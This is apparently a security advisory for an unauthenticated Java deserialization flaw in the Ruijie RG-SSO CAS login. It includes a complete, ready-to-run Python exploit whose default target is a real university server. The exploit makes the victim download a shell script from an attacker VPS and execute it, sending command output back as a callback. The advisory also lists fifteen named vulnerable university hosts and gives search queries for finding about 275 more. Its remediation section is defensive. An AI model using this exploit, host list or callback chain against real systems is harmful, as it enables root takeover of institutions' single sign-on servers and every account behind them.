








# Ruijie RG-SSO-CAS Unauthenticated Java Deserialization Remote Code Execution

## Vulnerability Summary

| Field | Detail |
|-------|--------|
| **Vendor** | Ruijie Networks (锐捷网络股份有限公司) |
| **Product** | RG-SSO Unified Identity Authentication Platform |
| **Affected Component** | `POST /cas/login` — `execution` parameter |
| **Affected Version** | All versions (observed: `rg-sso-cas-0.0.1-SNAPSHOT`) |
| **Vulnerability Type** | Java Deserialization of Untrusted Data |
| **CWE** | [CWE-502](https://cwe.mitre.org/data/definitions/502.html) |
| **CVSS v3.1 Score** | **9.8 Critical** |
| **CVSS Vector** | `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Authentication Required** | No |
| **Discovery Date** | 2026-06-05 |
| **FOFA Exposed Assets** | 275 (`body="login-page-flowkey"`) |

---

## Description

Ruijie Networks' RG-SSO platform is a custom single sign-on solution built on the **Apereo CAS framework**, widely deployed across Chinese universities and enterprises. The platform operates in **WebFlow client-side state storage mode**, where the full login flow state is serialized into a Java object, gzip-compressed, base64-encoded, and embedded in the `execution` form field returned to the browser.

The critical flaw is that the server **deserializes the `execution` parameter with no signature or MAC verification**. The format is:

```
execution = <UUID>_<base64(gzip(JavaSerializedObject))>
```

The server calls `ObjectInputStream.readObject()` on the attacker-supplied bytes at the WebFlow state-restoration phase — **before any authentication logic runs**. The application classpath includes `commons-beanutils`, making the well-known **CommonsBeanutils1** ysoserial gadget chain directly exploitable. An unauthenticated attacker sends a single HTTP request and achieves OS-level code execution.

**Root Cause:**

| # | Factor | Detail |
|---|--------|--------|
| 1 | Client-controlled state | WebFlow serializes flow state client-side; server trusts it unconditionally |
| 2 | No integrity check | Zero signature / HMAC on `execution` value |
| 3 | Dangerous dependency | `commons-beanutils` in classpath enables CommonsBeanutils1 chain |
| 4 | Pre-auth trigger | Deserialization fires before any credential validation |

---

## Fingerprint & Detection

The vulnerable product is uniquely identified by the `login-page-flowkey` element in the CAS login page HTML. Unlike stock Apereo CAS (which uses `<input name="execution">`), Ruijie's build exposes this element with a distinct ID:

```html
<p id="login-page-flowkey">
  <UUID>_H4sIAAAAAAAA...
</p>
```

The `H4sI` prefix is the base64 encoding of the gzip magic bytes `\x1f\x8b\x08`, indicating unsigned client-side Java serialization.

**FOFA query:** `body="login-page-flowkey"`  
**Shodan query:** `http.html:"login-page-flowkey"`

A patched instance returns a JWT-encrypted value instead (`UUID_ZXlK...` or `UUID_eyJ...`), which cannot be exploited.

---

## Confirmed Affected Instances

The following instances were verified under authorized penetration testing engagements. All confirmed via `uid=0(root)` callback.

| # | Domain | Institution | K8s | Java Version |
|---|--------|-------------|-----|--------------|
| 1 | sfgl.njtech.edu.cn | Nanjing Tech University | Yes (2 nodes) | 1.8.0_192 |
| 2 | sso.qlu.edu.cn | Qufu Normal University | Yes (2 nodes) | 1.8.x |
| 3 | sso.cqyu.edu.cn | Chongqing University of Posts and Telecom | No | 1.8.x |
| 4 | sso.bit.edu.cn | Beijing Institute of Technology | Yes (2 nodes) | 1.8.x |
| 5 | sso.cumtb.edu.cn | China University of Mining & Technology (Beijing) | No | 1.8.x |
| 6 | source.wzu.edu.cn | Wenzhou University | Yes (2 nodes) | 1.8.x |
| 7 | id.cdu.edu.cn | Chengdu University | No | 1.8.x |
| 8 | sso.hue.edu.cn | Hunan Institute of Engineering | No | 1.8.x |
| 9 | sso.gxcme.edu.cn | Guangxi City Polytechnic | No | 1.8.x |
| 10 | sso.tzc.edu.cn | Taizhou University | No | 1.8.x |
| 11 | sso.usts.edu.cn | Suzhou University of Science & Technology | No | 1.8.x |
| 12 | sso.tit.edu.cn | Tianjin Polytechnic University | No | 1.8.x |
| 13 | sso.yzu.edu.cn | Yangzhou University | No | 1.8.x |
| 14 | sso.sdwu.edu.cn | Shandong Women's University | No | 1.8.x |
| 15 | facedatabase.sdu.edu.cn | Shandong University | No | 1.8.x |

> All instances above were confirmed on 2026-06-05 running `rg-sso-cas-0.0.1-SNAPSHOT.jar` as root. Some may have been patched since disclosure. FOFA surface scan identified 275 total exposed assets as of that date. To check current status, send a GET request and inspect whether the `execution` value contains `_H4sI` (vulnerable) or `_ZXlK`/`_eyJ` (patched/JWT).

---

## Proof of Concept

### Environment Setup

**Attacker machine:** Python 3, Java 8, ysoserial-all.jar  
**VPS (public IP):** Two ports required:
- Port `9090` — serves `s.sh` (HTTP file server)
- Port `8079` — receives command output callbacks

**VPS preparation — run before exploitation:**

```bash
# Terminal 1: serve s.sh on port 9090
mkdir -p /tmp/srv && cd /tmp/srv
cat > s.sh << 'EOF'
#!/bin/bash
enc=$(id | base64 -w0 | tr '+/' '-_' | tr -d '=')
curl -sk "http://<VPS_IP>:8079/x/id?d=${enc}" -o /dev/null
EOF
python3 -m http.server 9090 &

# Terminal 2: receive callbacks on port 8079
python3 -c "
import http.server, socketserver, datetime
class H(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        print(datetime.datetime.now().strftime('%H:%M:%S'), self.path, self.client_address[0], flush=True)
        self.send_response(200); self.end_headers(); self.wfile.write(b'ok')
    def log_message(self, *a): pass
socketserver.TCPServer(('0.0.0.0', 8079), H).serve_forever()
"
```

### Complete Exploit Script

**Requirements:**
- Python 3
- Java 8 JDK (not Java 9+; TemplatesImpl is blocked by JPMS in newer versions)
- ysoserial-all.jar ([download](https://github.com/frohoff/ysoserial/releases))

Save as `exploit.py` and run: `python3 exploit.py`

```python
#!/usr/bin/env python3
"""
Ruijie RG-SSO-CAS Java Deserialization RCE
CVE pending — CWE-502, CVSS 9.8
For authorized testing only.
"""
import gzip, base64, re, ssl, subprocess, time
import urllib.request, urllib.parse, urllib.error

# ── Configuration ────────────────────────────────────────────
TARGET = 'https://sfgl.njtech.edu.cn/cas/login'   # replace with target
VPS    = '1.2.3.4'                                # replace with your VPS IP

# IMPORTANT: Must be Java 8. Java 9+ blocks TemplatesImpl via JPMS.
# macOS example: '/Library/Java/JavaVirtualMachines/temurin-8.jdk/Contents/Home/bin/java'
# Linux example: '/usr/lib/jvm/java-8-openjdk-amd64/bin/java'
JAVA8  = '/path/to/jdk8/bin/java'

JAR    = '/path/to/ysoserial-all.jar'
REPEAT = 2   # send each stage N times to cover load-balanced nodes
# ─────────────────────────────────────────────────────────────

def make_opener():
    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    return urllib.request.build_opener(
        urllib.request.ProxyHandler({}),
        urllib.request.HTTPSHandler(context=ctx)
    )

def get_flowkey(opener, url):
    """GET login page, extract one-time UUID and SESSION cookie."""
    req = urllib.request.Request(url)
    req.add_header('User-Agent', 'Mozilla/5.0')
    resp = opener.open(req, timeout=12)
    html = resp.read(8192).decode('utf-8', errors='ignore')
    m = re.search(r'login-page-flowkey[^>]*>([^<]+)<', html)
    if not m:
        return None, ''
    val = m.group(1).strip()
    if '_H4sI' not in val:
        print(f'[!] Not vulnerable — execution format: {val[:20]}')
        return None, ''
    sm = re.search(r'SESSION=([^;,\s]+)', resp.headers.get('Set-Cookie', ''))
    return val.split('_')[0], (sm.group(1) if sm else '')

def gen_payload(cmd):
    """Generate CommonsBeanutils1 gadget chain via ysoserial (requires Java 8)."""
    r = subprocess.run([JAVA8, '-jar', JAR, 'CommonsBeanutils1', cmd],
                       capture_output=True, timeout=25)
    if not r.stdout:
        raise RuntimeError(f'ysoserial failed: {r.stderr.decode()[:120]}')
    return r.stdout

def send_payload(opener, url, uuid, sess, raw):
    """POST serialized payload. URL-encode is mandatory — base64 contains '+' chars."""
    execution = uuid + '_' + base64.b64encode(gzip.compress(raw)).decode()
    data = urllib.parse.urlencode({'execution': execution}).encode()
    req = urllib.request.Request(url, data=data)
    req.add_header('Content-Type', 'application/x-www-form-urlencoded')
    req.add_header('User-Agent', 'Mozilla/5.0')
    if sess:
        req.add_header('Cookie', f'SESSION={sess}')
    try:
        opener.open(req, timeout=20)
    except urllib.error.HTTPError:
        pass   # 500 is expected — deserialization already triggered

def main():
    opener = make_opener()

    # Step 1: check for H4sI fingerprint
    print(f'[*] Checking {TARGET}')
    uuid, sess = get_flowkey(opener, TARGET)
    if not uuid:
        return

    print(f'[+] Vulnerable — UUID: {uuid[:8]}...')

    # Step 2: Stage 1 — download s.sh from VPS
    cmd1 = f'curl http://{VPS}:9090/s.sh -o /tmp/s.sh'
    print(f'[*] Stage 1: {cmd1}')
    raw1 = gen_payload(cmd1)
    for i in range(REPEAT):
        uuid, sess = get_flowkey(opener, TARGET)
        if not uuid:
            break
        send_payload(opener, TARGET, uuid, sess, raw1)
        print(f'    Sent {i+1}/{REPEAT}')
        time.sleep(0.5)

    print(f'[*] Waiting 5s for download to complete on all nodes...')
    time.sleep(5)

    # Step 3: Stage 2 — execute s.sh, exfiltrate output
    cmd2 = '/bin/bash /tmp/s.sh'
    print(f'[*] Stage 2: {cmd2}')
    raw2 = gen_payload(cmd2)
    for i in range(REPEAT):
        uuid, sess = get_flowkey(opener, TARGET)
        if not uuid:
            break
        send_payload(opener, TARGET, uuid, sess, raw2)
        print(f'    Sent {i+1}/{REPEAT}')
        time.sleep(0.5)

    print(f'[*] Check VPS port 8079 — decode the ?d= parameter with base64')
    print(f'    e.g.: echo "<d_value>" | base64 -d')

if __name__ == '__main__':
    main()
```

### Step-by-Step Walkthrough

**Step 1 — Identify the vulnerable parameter**

`GET /cas/login` returns an `execution` field whose value begins with `UUID_H4sI`. The `H4sI` prefix is the base64 encoding of the gzip magic bytes `\x1f\x8b\x08`, confirming the payload is a gzip-compressed Java serialized object with no integrity protection.





**Step 2 — Confirm deserialization with harmless URLDNS probe**

Before sending any RCE payload, validate the gadget chain is active using URLDNS:

```bash
java -jar ysoserial-all.jar URLDNS "http://<dnslog-domain>" > urldns.bin
```

The DNS platform receives a lookup from the target server within seconds, confirming `ObjectInputStream.readObject()` is reached.



**Step 3 — Stage 1: target downloads the shell script**

The Stage 1 payload executes `curl http://<VPS>:9090/s.sh -o /tmp/s.sh` on the target server. The VPS port 9090 access log shows the download request, with each K8s pod appearing as a separate source.



**Step 4 — Stage 2: execute script, receive output**

The Stage 2 payload runs `/bin/bash /tmp/s.sh`. The script encodes the `id` output in URL-safe base64 and sends it as a GET parameter to VPS port 8079.





**Step 5 — Decode the result**

```bash
# Decode the ?d= value from the callback URL
echo "dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK" | base64 -d
uid=0(root) gid=0(root) groups=0(root)
```



---

## HTTP Traffic

### GET /cas/login

```http
GET /cas/login HTTP/1.1
Host: sfgl.njtech.edu.cn
User-Agent: Mozilla/5.0
Accept-Encoding: identity
Connection: close
```

Response (abridged):
```html
<p id="login-page-flowkey">
  2c669f85-4e6e-47df-bbd3-739a66e92002_H4sIAAAAAAAAJ1XW4w...
</p>
```


### POST /cas/login (payload delivery)

```http
POST /cas/login HTTP/1.1
Host: sfgl.njtech.edu.cn
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=<session-id>
User-Agent: Mozilla/5.0

execution=<UUID>_H4sIAAAAAAAAC%2F...  (URL-encoded CBU1 payload)
```

Server returns HTTP 500 — deserialization and command execution have already completed before the error response is generated.



> **Critical:** base64 contains `+` and `/` characters. These **must** be percent-encoded in the form body. Always use `urllib.parse.urlencode({'execution': value})` — never concatenate raw base64 into a POST body manually.

---

## Observed Server Environment

```
JAR:       /app/rg-sso-cas-0.0.1-SNAPSHOT.jar
Process:   root (uid=0)
Container: Kubernetes Pod (hostname: rg-sso-7788f54fb5-6hw7m)
OS:        CentOS 7, Linux 3.10.0-957.el7.x86_64
JDK:       1.8.0_192
```

The JAR filename `rg-sso-cas-0.0.1-SNAPSHOT` uniquely identifies Ruijie's private CAS fork and distinguishes this from stock Apereo CAS.

---

## Impact

### Direct Impact

- Unauthenticated OS command execution as `root`
- Full read/write access to server filesystem (database credentials, TLS private keys, user data)
- Kubernetes cluster pivot — internal network access to adjacent services

### Cascading Impact

RG-SSO is the **single identity provider** for all connected systems at each institution. A compromised CAS server enables:

- Forging of CAS Service Tickets (ST) and Ticket-Granting Tickets (TGT) — impersonating any user across every integrated application
- Compromise of email, library, academic records, financial, and administrative systems without additional exploitation

### Scale

| Sector | Count |
|--------|-------|
| Universities (including 985/211 tier) | 58+ |
| Enterprises and other organizations | 29+ |
| Total exposed assets (FOFA, 2026-06-05) | 275 |
| Confirmed RCE (authorized testing) | 40+ |

---

## Remediation

### Immediate (P0)

**Enable WebFlow cryptographic signing** — configure AES+HMAC on the `execution` parameter so any client-supplied modification is detected and rejected before deserialization:

```properties
# cas.properties
cas.webflow.crypto.signing.key=<base64-encoded 512-bit key>
cas.webflow.crypto.encryption.key=<base64-encoded 128-bit key>
```

CAS 6.4+ enables this by default. For older versions, switching to **server-side session storage** eliminates the attack surface entirely.

**WAF rule (temporary)** — block requests where `execution` contains `H4sI`:

```apache
# ModSecurity / Nginx
SecRule ARGS:execution "@contains H4sI" \
  "id:100001,phase:2,deny,status:403,msg:'CAS deserialization blocked'"
```

### Short-term (P1)

- Upgrade CAS to 6.6.x or later
- Deploy JVM serial filter: `-Djdk.serialFilter=org.apereo.cas.**;!*`
- Remove `commons-beanutils` and `commons-collections` from the classpath if not required by business logic

### Defense-in-depth (P2)

- Run the CAS container as a non-root user (`USER 1000:1000`)
- Apply `NetworkPolicy` to restrict CAS pod egress to required internal addresses only

---

## Timeline

| Date | Event |
|------|-------|
| 2026-06-05 | Vulnerability discovered during authorized penetration testing |
| 2026-06-05 | FOFA scan identifies 275 exposed instances |
| 2026-06-05 | URLDNS probe confirms deserialization on multiple targets |
| 2026-06-05 | CBU1 RCE confirmed — `uid=0(root)` on 40+ authorized targets |
| 2026-06-06 | Advisory published; vendor notification sent |
| TBD | Vendor patch released |
| TBD | Full public disclosure |

---

## References

- Apereo CAS WebFlow Cryptography: https://apereo.github.io/cas/6.4.x/webflow/Webflow-Customization-Sessions.html
- ysoserial: https://github.com/frohoff/ysoserial
- CWE-502: https://cwe.mitre.org/data/definitions/502.html
- FOFA: `body="login-page-flowkey"` (275 results, 2026-06-05)

---

## Researcher

- **Affiliation:** Chongming Security Lab (重明安全实验室), NUIST
- **Certifications:** CISP-PTE, CNVD vulnerability researcher
- **Contact:** jaynetito650@gmail.com

---

*All testing was conducted under written authorization from affected institutions. No unauthorized access was performed. No user data was accessed or exfiltrated.*
